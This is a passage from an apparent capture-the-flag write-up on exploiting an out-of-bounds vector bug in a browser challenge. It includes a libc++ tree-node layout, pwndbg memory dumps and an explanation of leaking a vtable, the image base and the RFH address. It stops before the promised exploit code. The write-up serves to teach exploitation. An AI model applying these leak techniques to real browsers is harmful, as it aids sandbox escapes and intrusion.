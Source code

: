   ```c++
    ~__tree_node() _LIBCPP_EQUAL_DELETE;
    __tree_node(__tree_node const&) _LIBCPP_EQUAL_DELETE;
    __tree_node& operator=(__tree_node const&) _LIBCPP_EQUAL_DELETE;
  };
  ```

  According to these inheritance relationships, I drew its layout in the memory:

  ```
  0x00	__left_ 
  0x08 	__right_
  0x10	__parent_
  0x18	__is_black_
  0x20	__value_
  ```

  Combining the specific data that is printed by GDB: 

  ```c++
  pwndbg> telescope 0xc088ceaca00
  00:0000│  0xc088ceaca00 ◂— 0x0 [__left_]
  01:0008│  0xc088ceaca08 ◂— 0x0 [__right_]
  02:0010│  0xc088ceaca10 —▸ 0xc088ceae8b8 —▸ 0xc088ceaca00 ◂— 0x0 [__parent_]
  03:0018│  0xc088ceaca18 ◂— 0x46746e6576457401 [__is_black_]
  04:0020│  0xc088ceaca20 ◂— 0x707865 /* 'exp' */ [__value_:string]
  05:0028│  0xc088ceaca28 ◂— 0x0 [__value_:string]
  06:0030│  0xc088ceaca30 ◂— 0x300000000000000 [__value_:string]
  07:0038│  0xc088ceaca38 —▸ 0xc088ceadcc0 ◂— 0x4141414141414141 ('AAAAAAAA') [__value_:vector]
  08:0040│  0xc088ceaca40 —▸ 0xc088ceadcc8 ◂— 0xfffffffd5360d7e1 [__value_:vector]
  09:0048│  0xc088ceaca48 —▸ 0xc088ceadcc8 ◂— 0xfffffffd5360d7e1 [__value_:vector]
  
  pwndbg> vmmap 0xc088ceadcc0
  LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
       0xc088caef000      0xc088ceee000 rw-p   3ff000 0      [anon_c088caef] +0x3becc0
  pwndbg> vmmap 0xc088ceae8a0
  LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
       0xc088caef000      0xc088ceee000 rw-p   3ff000 0      [anon_c088caef] +0x3bf8a0
  ```

  we can get the address of the vector's backing store which is `0xc088ceadcc0`. And we find this backing store is in the same segment with the `PlaidStoreObject` object whose address is `0xc088ceae8a0`.

This final result means that if we create several OOB vectors and  `PlaidStoreImpl` objects, they will arrange alternately in memory and we can use one of these vectors to leak the address of the vtable of a `PlaidStoreImpl` object behind it. Because all the vtables are stored in the rodata section, they will have fixed offsets from the the image base of the process, and its last twelve bits are always fixed which are `0x7a0`. It is a good way for us to leak the address of image base of the browser process.

Besides, the memory slot behind the vtable keeps the address of the RFH so we can also use this method to leak the address of the RFH. 

The following code shows how to exploit this vulnerability to leak address:
